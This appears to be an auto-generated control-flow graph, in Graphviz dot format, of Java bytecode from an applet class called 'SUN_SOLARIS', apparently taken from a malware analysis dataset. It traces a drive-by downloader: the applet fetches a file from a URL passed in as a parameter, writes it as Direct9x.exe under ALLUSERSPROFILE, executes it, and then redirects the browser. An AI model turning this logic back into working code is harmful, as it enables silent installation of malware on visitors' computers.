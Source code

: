 digraph "" {
    "r0 := @this: SUN_SOLARIS"
    "push \"ALLUSERSPROFILE\""
    "r0 := @this: SUN_SOLARIS"->"push \"ALLUSERSPROFILE\"";
    "staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>"
    "push \"ALLUSERSPROFILE\""->"staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>";
    "push \"\\Direct9x.exe\""
    "staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>"->"push \"\\Direct9x.exe\"";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"
    "push \"\\Direct9x.exe\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "store.r r3"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"store.r r3";
    "load.r r0"
    "store.r r3"->"load.r r0";
    "push \"redir\""
    "load.r r0"->"push \"redir\"";
    "virtualinvoke <SUN_SOLARIS: java.lang.String getParameter(java.lang.String)>"
    "push \"redir\""->"virtualinvoke <SUN_SOLARIS: java.lang.String getParameter(java.lang.String)>";
    "store.r r19"
    "virtualinvoke <SUN_SOLARIS: java.lang.String getParameter(java.lang.String)>"->"store.r r19";
    "new java.io.FileOutputStream"
    "store.r r19"->"new java.io.FileOutputStream";
    "store.r $r10"
    "new java.io.FileOutputStream"->"store.r $r10";
    "load.r $r10"
    "store.r $r10"->"load.r $r10";
    "load.r r3"
    "load.r $r10"->"load.r r3";
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"
    "load.r r3"->"specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "store.r r5"
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"store.r r5";
    "new java.net.URL"
    "store.r r5"->"new java.net.URL";
    "dup1.r"
    "new java.net.URL"->"dup1.r";
    "dup1.r"->"load.r r0";
    "push \"link\""
    "load.r r0"->"push \"link\"";
    "push \"link\""->"virtualinvoke <SUN_SOLARIS: java.lang.String getParameter(java.lang.String)>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "virtualinvoke <SUN_SOLARIS: java.lang.String getParameter(java.lang.String)>"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>"
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>";
    "virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>"
    "virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>"->"virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>";
    "store.r r8"
    "virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>"->"store.r r8";
    "push 1024"
    "store.r r8"->"push 1024";
    "newarray"
    "push 1024"->"newarray";
    "store.r r9"
    "newarray"->"store.r r9";
    "load.r r8"
    "store.r r9"->"load.r r8";
    "load.r r9"
    "load.r r8"->"load.r r9";
    "push 0"
    "load.r r9"->"push 0";
    "push 0"->"load.r r9";
    "arraylength"
    "load.r r9"->"arraylength";
    "virtualinvoke <java.io.InputStream: int read(byte[],int,int)>"
    "arraylength"->"virtualinvoke <java.io.InputStream: int read(byte[],int,int)>";
    "store.i $i2"
    "virtualinvoke <java.io.InputStream: int read(byte[],int,int)>"->"store.i $i2";
    "load.i $i2"
    "store.i $i2"->"load.i $i2";
    "push -1"
    "load.i $i2"->"push -1";
    "ifcmpeq.i load.r r8"
    "push -1"->"ifcmpeq.i load.r r8";
    "ifcmpeq.i load.r r8"->"load.r $r10";
    "load.r $r10"->"load.r r9";
    "load.r r9"->"push 0";
    "push 0"->"load.i $i2";
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"
    "load.i $i2"->"virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>";
    "goto load.r r8"
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"->"goto load.r r8";
    "store.r r0"
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"->"store.r r0";
    "return"
    "store.r r0"->"return";
    "ifcmpeq.i load.r r8"->"load.r r8";
    "virtualinvoke <java.io.InputStream: void close()>"
    "load.r r8"->"virtualinvoke <java.io.InputStream: void close()>";
    "virtualinvoke <java.io.InputStream: void close()>"->"load.r $r10";
    "virtualinvoke <java.io.FileOutputStream: void close()>"
    "load.r $r10"->"virtualinvoke <java.io.FileOutputStream: void close()>";
    "load.r r5"
    "virtualinvoke <java.io.FileOutputStream: void close()>"->"load.r r5";
    "load.r r5"->"load.r r3";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"
    "load.r r3"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "pop"
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"pop";
    "pop"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "load.r r19"
    "dup1.r"->"load.r r19";
    "checkcast"
    "load.r r19"->"checkcast";
    "checkcast"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"checkcast";
    "checkcast"->"store.r r3";
    "store.r r3"->"load.r r0";
    "virtualinvoke <SUN_SOLARIS: java.applet.AppletContext getAppletContext()>"
    "load.r r0"->"virtualinvoke <SUN_SOLARIS: java.applet.AppletContext getAppletContext()>";
    "virtualinvoke <SUN_SOLARIS: java.applet.AppletContext getAppletContext()>"->"load.r r3";
    "interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL)> 1"
    "load.r r3"->"interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL)> 1";
    "goto return"
    "interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL)> 1"->"goto return";
    "goto return"->"return";
}

